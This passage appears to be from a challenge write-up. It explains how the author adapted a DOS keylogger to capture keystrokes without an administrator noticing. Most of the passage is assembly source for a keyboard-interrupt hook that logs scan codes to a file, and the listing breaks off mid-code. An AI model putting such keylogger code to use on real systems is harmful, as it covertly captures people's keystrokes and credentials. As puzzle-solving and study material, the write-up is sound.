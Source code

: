We can see that the program first registers its own interrupt handler for the `09h` keyboard interrupt. This means we
cannot simply set our own interrupt handler to log the keystrokes. We have to be careful because otherwise the admin
detects the change and doesn't give us back the disk b.

To log the keystrokes I adapted [a keylogger that I found
online](https://github.com/MrMichael2002/Keylogger-scan-codes/blob/master/KEYS.ASM). The following assembly instructions
log the keyboard input to a file `b:\output.txt`.

```
.model tiny
.code
.386
org 100h
Start:
		jmp	real_start

edited		dw	0
magic		dw	0BABAh
logfile		db	'b:\output.txt', 0      
handle		dw	0
buf		db	320 dup (?)
bufptr          dw	0
must_write	db	0


;IRQ1 - KEYBOARD DATA READY
new_09h:
		pushf
		pusha
		push	es                      
		push	ds
		push	cs                      
		pop	ds	;Remember segments

	        cmp	bufptr, 160
		jae	call_old_09	;Check if buffer is overflown

		in	al, 60h                 

		;cmp   	al, 39h  	;Don't remember Shift, Alt and Ctrl               
		;ja    	call_old_09             
		;cmp   	al, 2Ah
		;je    	call_old_09
		;cmp   	al, 36h                 
		;je    	call_old_09

		push  	0
		pop   	es                      
		mov   	ah, byte ptr es:[417h]  
		test  	ah, 43h                 ;Check if both shifts and CapsLock pressed
		je    	pk1                     
 
		add   	al, 80h     	            
pk1:
		mov 	di, bufptr
		mov   	buf[di], al             
		inc   	di                      
		mov   	bufptr, di
		mov   	must_write, 1           
                                    
call_old_09:
        	cmp edited, 3				;At least three edits
```